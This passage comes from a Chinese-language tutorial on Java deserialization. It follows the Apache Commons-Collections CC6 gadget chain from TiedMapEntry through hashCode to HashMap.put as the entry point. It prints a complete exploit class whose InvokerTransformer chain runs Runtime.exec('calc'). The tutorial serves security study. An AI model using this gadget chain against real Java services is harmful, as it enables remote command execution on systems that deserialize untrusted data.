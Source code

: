 现在我们确保了 `TiedMapEntry` 这一段链子的可用性，往上去找谁调用了 `TiedMapEntry` 中的 `getValue()` 方法。

- 寻找的方法也略提一嘴，因为 `getValue()` 这一个方法是相当相当常见的，所以我们一般会优先找同一类下是否存在调用情况。

寻找到同名函数下的 `hashCode()` 方法调用了 `getValue()` 方法。

![img](https://drun1baby.top/2022/06/11/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8703-CC6%E9%93%BE/hashCode.png)

如果我们在实战里面，在链子中找到了 `hashCode()` 方法，说明我们的构造已经可以**“半场开香槟”**了，

### 3. 与入口类结合的整条链子

- 前文我们说到链子已经构造到 `hashCode()` 这里了，这一条 `hashCode()` 的链子该如何构造呢？

我们去找谁调用了 `hashCode()` 方法，这里我就直接把答案贴出来吧，因为在 Java 反序列化当中，找到 `hashCode()` 之后的链子用的基本都是这一条。

JAVA

```
xxx.readObject()
	HashMap.put() --自动调用-->   HashMap.hash()
		后续利用链.hashCode()
```

更巧的是，这里的 HashMap 类本身就是一个非常完美的**入口类**。

- 如果要写一段从 `HashMap.put` 开始，到 `InvokerTransformer` 结尾的弹计算器的 EXP，应当是这样的。

JAVA

```
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
// 用 HashMap 的 hash 方法完成链子  
public class HashMapEXP {  
    public static void main(String[] args) throws Exception{  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
 new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
 new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);  
 TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");  
 HashMap<Object, Object> expMap = new HashMap<>();  
 expMap.put(tiedMapEntry, "value");  
 }  
}
```
